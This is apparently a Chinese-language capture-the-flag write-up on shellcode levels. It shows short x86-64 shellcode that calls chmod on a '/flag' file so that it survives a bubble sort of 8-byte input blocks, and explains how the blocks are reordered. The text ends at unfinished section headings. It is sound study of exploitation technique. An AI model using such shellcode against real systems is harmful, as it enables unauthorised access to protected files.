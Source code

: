 ## 编写短 shellcode 绕过排序逻辑
```c
sh = asm('''
push 0x66
mov rdi,rsp
push 4
pop rsi
mov al,0x5a      
syscall
''')
```
```c
sh = asm('''
push 0x66
mov rdi,rsp
push 4
pop rsi
mov rax,0x5a      
syscall
''')
sh = asm('''
    mov rbx,0x67616c662f
    push rbx
    mov rdi,rsp
    push 0x0
    pop rsi
    mov rax,0x5a
    syscall
''')
```
## ⭐执行排序情况下的情况分析
> 修改了一下源码中 j 的上界，将绕过排序的最短 shellcode 长度设置为了 15 字节。【不过 改不改 不影响，主要是探究排序逻辑】

```c
    uint64_t *input = shellcode_mem;
    int sort_max = shellcode_size / sizeof(uint64_t) - 1;   
    for (int i = 0; i < sort_max; i++)
        for (int j = 0; j < sort_max-i; j++)
            if (input[j] > input[j+1])
            {
                uint64_t x = input[j];
                uint64_t y = input[j+1];
                input[j] = y;
                input[j+1] = x;
            }
```
![联想截图_20240808204601.png](https://i-blog.csdnimg.cn/blog_migrate/47d5f9d2872fbbe2651048398ec9ba10.png)
```
上图中shellcode长度是26bytes，分为4块。每块首字节分别为 0x48，0x00，0x5e,0x0f
由于 26 / 8 - 1 = 2，故i循环执行2次，j循环：1.j = 0,j = 1      2. j=0 
块0，1比较：    不交换      ；块1，2比较：交换，1'=2 , 2'=1
块0，1'比较：交换，0'=1'=2 , 1''= 0     
因此最终块排序为：2，0，1，3对应图的中间部分。

具体bypass需要根据指令进行调整，达到shellcode正常执行的目的。
```
## 借用标准输入【待补充......】
# level 11 在 level10 基础上关闭 stdin
## 短 shellcode 绕过排序